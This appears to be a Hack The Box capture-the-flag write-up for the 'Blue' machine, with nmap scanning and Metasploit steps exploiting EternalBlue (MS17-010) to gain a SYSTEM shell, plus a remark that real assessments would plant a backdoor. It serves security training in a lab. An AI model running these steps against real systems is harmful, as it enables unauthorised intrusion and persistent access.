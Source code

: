 ```yaml
---
title: "HTB | BLUE"
date: 2024-08-03 00:00:00 +0800
categories: [HTB]
tags: [Windows]                    
---
```


![img-description](/assets/img/HTB/htb.png)

## Initial Access - EternalBlue + Metasploit

**Vulnerability Explanation:** The machine is vulnerable to EternalBlue. EternalBlue is an infamous exploit of the SMB port against old Windows machines. A publicly available exploit is used to gain access to the machine.

**Vulnerability Fix:** Disable the SMB port. Upgrade the system to one that is not vulnerable to EternalBlue.

**Severity:** Critical

**Steps to reproduce the attack:** 

**Port Scan Results**

**TCP:** 135,139,445,49152,49153,49153,49154,49155,49156,49157

**UDP:** N/A

Use nmap to scan the target for open ports.

TCP ports 135, 139, 445, 49152-49157 were discovered.

```shell
sudo nmap -p- -T5 -vvv -oN nmap.initial 10.10.10.40
```

![img-description](/assets/img/HTB/BLUE/1.png)


Enumerate further on port 445, SMB, using nmap scripting engine(NSE). The target machine is vulnerable to EternalBlue(ms17-010).

```shell
sudo namp -sV -p 445 --script "vuln" 10.10.10.40
```

![img-description](/assets/img/HTB/BLUE/2.png)

Using Metasploit, search for the exploit, set the parameters and run it to gain a shell on the target machine.

```shell
sudo msfconsole
```

```
search ms17-010
```
```
use 0
```
![img-description](/assets/img/HTB/BLUE/3.png)

```
set RHOSTS 10.10.10.40
```
```
set LHOST 10.10.16.10
```

![img-description](/assets/img/HTB/BLUE/4.png)

```
run
```

![img-description](/assets/img/HTB/BLUE/5.png)
![img-description](/assets/img/HTB/BLUE/6.png)
We have successfully got initial access to the machine as ‘nt authority’.

‘nt authority’ is a high privileged user so privilege escalation is not needed.
## Privilege Escalation - N/A

**Vulnerability Explanation:** N/A

**Vulnerability Fix:** N/A

**Severity:** N/A

**Steps to reproduce the attack:** N/A

## Post Exploitation

Since this is a CTF the objective is only to retreive the flag located in the /root directory as a privileged user. 

In a real world assessment, we would attempt to add a back door for continuous access to the machine.